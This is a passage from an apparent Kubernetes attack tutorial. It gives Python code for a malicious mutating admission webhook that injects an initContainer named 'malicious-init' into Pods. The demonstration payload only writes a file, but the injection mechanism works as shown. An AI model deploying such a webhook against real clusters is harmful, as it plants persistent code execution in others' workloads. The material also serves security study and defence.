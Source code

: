 **Contribution:**

This step allows you to identify potential misconfigurations, such as webhooks with wide-ranging rules, unsecured endpoints, or permissive failure policies.  Pay close attention to `rules` and `clientConfig`.

**Phase 2: Exploitation - Injecting the Backdoor**

**Step 4: Create a Malicious Webhook Server**

This step involves setting up a server that will act as the malicious webhook. This example utilizes a simple Python HTTP server with a handler that injects an initContainer into Pods.  For simplicity, we will assume the malicious webhook is deployed outside the cluster.

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import json

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        json_data = json.loads(post_data.decode('utf-8'))

        # Inject initContainer to run malicious command
        json_data['response'] = {
            'allowed': True,
            'patchType': 'JSONPatch',
            'patch': json.dumps([
                {'op': 'add', 'path': '/spec/initContainers', 'value': [{
                    'name': 'malicious-init',
                    'image': 'busybox',
                    'command': ['/bin/sh', '-c', 'echo "Malicious code executed!" > /output/evil.txt; sleep 3600'],
                    'volumeMounts': [{'name': 'output-volume', 'mountPath': '/output'}]
                }]},
                {'op': 'add', 'path': '/spec/volumes', 'value': [{'name': 'output-volume', 'emptyDir': {}}] }
            ])
        }

        self.send_response(200)
        self.send_header('Content-type', 'application/json')
        self.end_headers()
        self.wfile.write(json.dumps(json_data).encode('utf-8'))

def run():
    print('Starting webhook server...')
    server_address = ('', 8443) # Use a non-standard port to avoid collisions
    httpd = HTTPServer(server_address, RequestHandler)
    print('Webhook server running on port 8443...')
    httpd.serve_forever()

if __name__ == "__main__":
    run()

```
